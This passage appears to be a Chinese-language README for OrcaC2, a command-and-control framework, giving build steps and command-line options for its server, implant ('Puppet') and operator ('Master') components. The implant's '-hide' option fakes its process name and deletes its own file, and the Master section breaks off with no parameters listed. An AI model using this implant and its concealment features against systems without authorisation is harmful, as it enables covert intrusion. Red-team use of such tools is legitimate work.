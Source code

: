 

## 安装

> 编译源码前，需要先在本地安装：go (>=1.18) 、gcc 

### Windows系统下编译

下载并解压源码包后，直接运行`install.bat`文件即可。



### Kali_Linux系统下编译

```console
$ git clone https://github.com/Ptkatz/OrcaC2.git
$ cd OrcaC2
$ chmod +x install.sh
$ ./install.sh
```



## 使用

### Orca_Server端

存在配置文件(`./conf/app.ini`)与数据库文件(`./db/team.db`、`./qqwry.dat`)的情况下双击即可运行

参数说明：

- -c:     指定配置文件路径
- -au:    添加用户
- -du:     删除用户
- -mu:     修改用户的密码



### Orca_Puppet端

```console
Orca_Puppet.exe -host <Server端IP:端口> -debug -hide
```

参数说明：

- -host:     连接到Server端的地址，默认为127.0.0.1:6000
- -debug:    打开调试信息，默认为false
- -hide:     在Linux系统下可以伪造进程名，并删除自身程序文件



### Orca_Master端

```console
Orca_Master.exe -u <用户名> -p <密码> -H <Server端IP:端口>
```

参数说明：
